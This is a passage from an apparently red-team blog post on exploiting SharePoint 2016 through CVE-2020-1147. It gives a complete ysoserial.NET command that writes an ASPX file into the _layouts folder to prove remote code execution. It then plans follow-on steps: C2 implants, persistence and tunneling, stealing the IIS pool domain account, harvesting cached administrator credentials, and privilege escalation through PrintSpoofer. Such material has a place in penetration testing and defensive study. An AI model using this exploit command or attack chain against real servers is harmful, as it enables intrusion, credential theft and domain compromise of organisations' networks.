 ```html
<%@ Import Namespace="Microsoft.SharePoint" %>
    
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
	"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html>
<head></head>
<body>
<%= "testprint" %>
</body>
</html>
```

The `_layouts` folder is located at `C:\Program Files\Common Files\microsoft shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\proof.aspx` in the file system (note that the `16` folder is version-dependent, in this case it matches Sharepoint 2016),  so we launch Ysoserial.NET using the following command:

```bash
.\ysoserial.exe -p Sharepoint --cve=CVE-2020-1147 -c 'echo ^<^%@^ Import^ Namespace="Microsoft.SharePoint"^ ^%^>^ ^ ^<^!DOCTYPE^ html^ PUBLIC^ "-//W3C//DTD^ XHTML^ 1.0^ Strict//EN"^ "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd"^>^ ^<html^>^ ^<head^>^</head^>^ ^<body^>^ ^<^%=^ "testprint"^ ^%^>^ ^</body^>^ ^</html^> > "C:\Program Files\Common Files\microsoft shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\proof.aspx"'
```

It is a common practice to use the same Sharepoint instance for multiple sites mapped to different domains or subdomains. Another advantage from uploading ASPX files to `_layouts` is that we don't need to find the correct site since all of them have access to this folder. In our example, one valid URL would be `http://intranet.sp2016gm.dev/_layouts/15/proof.aspx`:

{{ figure(name="fig3.png", caption="Simple PoC demostrating RCE.") }}

This way we confirmed Code Execution capabilities, so we can proceed to the next step.



## Domain accounts in Cl34rt3xt

But wait a minute... do we really need to PrivEsc? That's a nice question. If you managed to confirm code execution and HTTP outbound connectivity, probably the best way to continue would be with a C2 HTTP implant. If your favourite C2 has proxy functionality then you may have a nice persistence with command execution and traffic tunneling capabilities, leaving PrivEsc as unnecessary.

However, if the server is unable to perform outbound connections, there are important sub-goals we can achieve after successful Privilege Escalation in a Sharepoint machine:

- The most important fact, PrivEsc will allow us to write ASPX files into the `layouts` folder, useful for web tunneling and setting up external persistences.
- We are interested in recovering the domain account for IIS Pool so we can use it in further HTTP requests instead of a compromised user. This way we avoid to lose access due to the user account being locked/disabled or a password reset.
- Given the centralized nature of this suite (well, it can be clustered) there is a high chance of getting cached credentials from multiple users, including server admins or even Domain Admins.

Privilege Escalation techniques in Windows can be very wide, but when we face a well-configured Windows Server 2019 instance, things can become hard. Still, there is one technique that should work fine considering that our IIS Pool account probably has the `SeImpersonatePrivilege` privilege enabled: [the PrintSpoofer bug](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/).

